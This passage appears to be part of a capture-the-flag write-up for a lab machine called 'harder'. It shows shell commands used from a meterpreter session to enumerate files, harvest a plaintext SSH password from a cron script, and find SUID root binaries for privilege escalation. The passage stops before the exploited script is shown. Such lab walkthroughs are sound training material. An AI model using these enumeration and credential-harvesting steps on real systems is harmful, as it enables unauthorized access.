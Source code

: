 From the meterpreter session, let's get a shell (just enter `shell`).

~~~
meterpreter> shell
$ cat /etc/issue
Welcome to Alpine Linux 3.12
Kernel \r on an \m (\l)
$ uname -a
Linux harder 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 Linux
~~~

Enumerating the files owned by `www` reveals the presence of an interesting file:

~~~
$ find / -type f -user www 2>/dev/null
/tmp/sess_utu0095om9rr89vk98njrm2t2t
/tmp/sess_hn2lgius2md63fqek2ch70j3np
/var/lib/nginx/html/50x.html
/var/lib/nginx/html/index.html
/etc/periodic/15min/evs-backup.sh  <======= Interesting!
/proc/10/task/10/fdinfo/0
/proc/10/task/10/fdinfo/1
/proc/10/task/10/fdinfo/2
/proc/10/task/10/fdinfo/4
/proc/10/task/10/fdinfo/5
[REDACTED]
~~~

This file provides us with credentials to connect as user "evs" over SSH.

~~~
cat /etc/periodic/15min/evs-backup.sh
#!/bin/ash

# ToDo: create a backup script, that saves the /www directory to our internal server
# for authentication use ssh with user "evs" and password "U6j1brxGqbsUA$pMuIodnb$SZB4$bw14"
~~~

## SSH connection as user "evs"

Once connected over SSH, let's search for files owned by `root` with the SUID bit set:

~~~
harder:/tmp$ find / -type f -user root -perm -u=s 2>/dev/null
/usr/local/bin/execute-crypted
~~~

This program references a shell script (`/usr/local/bin/run-crypted.sh`)

~~~
harder:/tmp$ strings /usr/local/bin/execute-crypted
[REDACTED]
/usr/local/bin/run-crypted.sh %s
[REDACTED]
~~~

The `/usr/local/bin/run-crypted.sh` shows the source code:
